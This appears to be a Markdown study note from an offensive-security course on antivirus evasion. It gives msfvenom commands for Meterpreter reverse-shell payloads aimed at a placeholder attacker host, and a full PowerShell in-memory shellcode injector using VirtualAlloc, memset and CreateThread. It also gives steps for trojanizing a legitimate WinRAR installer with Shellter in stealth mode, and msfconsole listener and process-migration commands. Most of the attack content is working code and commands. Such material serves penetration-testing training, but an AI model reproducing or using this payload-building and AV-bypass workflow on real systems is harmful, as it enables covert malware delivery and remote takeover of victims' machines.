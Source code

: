 

Originally designed to remove viruses, AV's typically include firewalls, site scanners, etc.  
  
[https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)  
  
  
Test Setup:  
  
- Create a Meterpreter payload:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > binary.exe
```

- Upload to VirusTotal:  
	** Convenient but it generates a hash for each unique submission, which is then shared with all participating AV vendors.  
	  As such, take care when submitting sensitive payloads as the hash is essentially considered public from the time of first submission.

![[virus-total-bad.png]]

- Use **nc** OR
```bash
python3 -m http.server 80
```
	to upload to Windows client  
  
- Install Avira on Win client:
```powershell
 C:\Tools\antivirus_evasion\
```

- Turn _Real_-_Time Protection_ on  
  
- Attempt to run _**binary.exe**_
	![[avira-alert.png]]

AV evasion falls into two broad categories: [on-disk](14.2.1%20-%20On-Disk.md) and [in-memory](14.2.2%20-%20In-Memory.md).
  
Given the maturity of AV file scanning, modern malware often attempts **in-memory** operation, avoiding the disk entirely and therefore reducing the possibility of being detected.  



### PowerShell In-Memory Injection:

Will use a technique similar to Remote Process Memory Injection.  
Main difference - we'll target the currently executing process: PowerShell Interpreter.  
```powershell
$code = '  
[DllImport("kernel32.dll")]  
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
  
[DllImport("kernel32.dll")]  
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);  
  
[DllImport("msvcrt.dll")]  
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';  
  
$winFunc =   
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;  
 
[Byte[]]$sc = <place your shellcode here>;  
  
$size = 0x1000;  
  
if ($sc.Length -gt 0x1000) {$size = $sc.Length};  
  
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);  
  
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};  
  
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
.
- Imports _VirtualAlloc_ from _kernel32.dll_  
	- (to allocate memory - Lines 2 - 3)  
- Imports _CreateThread_ from _kernel32.dll_  
	- (create an execution thread - Lines 5 - 6)  
- Imports _memset_ from _msvcrt.dll_  
	- (write arbitrary data to the allocated memory - Lines 8 - 9)  
- Allocates a block of memory using _VirtualAlloc_  
	- (Lines 14 & 19 - 21)  
- Takes each byte of the payload stored in the _$sc_ byte array & Writes it to our newly allocated memory block using _memset_
	- (Lines 15 & 23)  
- Execute in separate thread  
	- (Line 25)  
  
Payload (meterpreter) creation:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f powershell
```


In order to get it to run, you need to be mindful of the user's [Execution Policy](Execution%20Policy.md).  
  
  
From [Exercise #6:](17%20-%20AV%20Evasion.md#17.3.5.6) 
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help  

  
  
### Shellter:

[Shellter](Shellter.md) is a dynamic shellcode injector which can bypass AVs.  
  
We'll run in Auto mode for this example:  

Download 32-bit version of **winrar.exe** from [https://www.rarlab.com/download.htm](https://www.rarlab.com/download.htm) onto Kali  
  
In Shellter:  
- Select a Target PE (full/path/**winrar.exe**)  
- Choose Stealth Mode - Y  
- Choose Payload - Meterpreter Reverse TCP  
- Set Meterpreter Options - LHOST & LPORT  
  
In Kali:  
- Start a Meterpreter listener to catch the conn:  
```bash
msfconsole -x "use exploit/multi/handler; set LHOST <attacker_ip>; set LPORT <port>; set PAYLOAD windows/meterpreter/reverse_tcp"
```

Transfer file to compromised Win machine.  
  
*****NOTE:** As it stands, the successful Meterpreter session will close out once the installer is either finished running OR is cancelled.  
  
Add an _AutoRunScript_ to migrate Meterpreter to a separate process immediately after session creation:  
```bash
set AutoRunScript post/windows/manage/migrate
```

Run compromised binary